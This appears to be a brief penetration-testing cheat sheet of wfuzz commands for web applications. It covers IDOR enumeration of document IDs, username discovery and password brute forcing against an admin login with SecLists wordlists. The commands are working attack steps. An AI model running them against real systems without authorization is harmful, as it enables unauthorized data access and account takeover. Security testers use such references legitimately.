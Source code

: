 ### IDOR

#### Static file IDOR

```bash
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ.txt"
```

#### ID based IDOR

```bash
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ"
```

### Brute forcing

#### Users discovery

```bash
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/login.php?user=FUZZ"
```

#### Password discovery

```bash
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404,403 -d "username=admin&password=FUZZ" "$URL/login.php"
```
